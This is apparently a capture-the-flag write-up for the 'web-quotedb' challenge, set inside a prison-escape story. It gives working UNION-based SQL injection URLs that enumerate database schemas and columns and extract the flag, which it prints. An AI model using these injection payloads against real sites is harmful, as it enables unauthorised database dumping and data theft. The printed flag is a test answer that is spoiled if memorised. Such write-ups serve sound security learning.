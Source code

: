 [../](../)

# Unknown - Prison Cell

> You don’t manage to disarm the guard, he is quicker than you are. He knocks you out, and when you wake up you’re inside a prison cell, but it doesn’t seem like you’re on a boat anymore, you must be inside the headquarters on the secret island! The cell is claustrophobic, with rusty iron bars and a bed of concrete.

## Challenge: web-quotedb (web)

> In this challenge, you have to find the hidden flag. Good luck!

> https://quotedb-web.2021.ctfcompetition.com/

## Solution

The website is vulnerable to SQL injection.

Probing with the following request reveals that the website outputs the second and third columns.

    https://quotedb-web.2021.ctfcompetition.com/?id=4+and+1=2+union%20select%201,2,3+from+information_schema.schemata

The following request reveals the structure of the database.

    https://quotedb-web.2021.ctfcompetition.com/?id=4+and+1=2+union%20select%201,1337,group_concat(0x7c,schema_name,0x7c)+from+information_schema.schemata

The next request enumerates all the columns of the database. It reveals a table consisting of the columns `id` and `flag`.

    https://quotedb-web.2021.ctfcompetition.com/?id=4+and+1=2+union%20select%201,1337,group_concat(0x7c,column_name,0x7C)+from+information_schema.columns

Finally, the last request shows the flag.

    https://quotedb-web.2021.ctfcompetition.com/?id=4+and+1=2+union%20select%201,1337,flag+from+flag

flag: `CTF{little_bobby_tables_we_call_him}`

> You pick up a paper clip from the floor, it’s a long shot, but it’s your only chance, pick the lock! It seems impossible… But hey, the lock is quite old, and wait... KLICK, you did it! You open up the iron bars, but the hinges squeak, and make a loud noise. You sneak out, and on the other end of the corridor is a guard. He sees you and points his blaster at you: Guard: "Hey, stay where you are, prisoner." You're considering running, but realizing that it is a lost cause, you raise your hands and step in your cell once again.
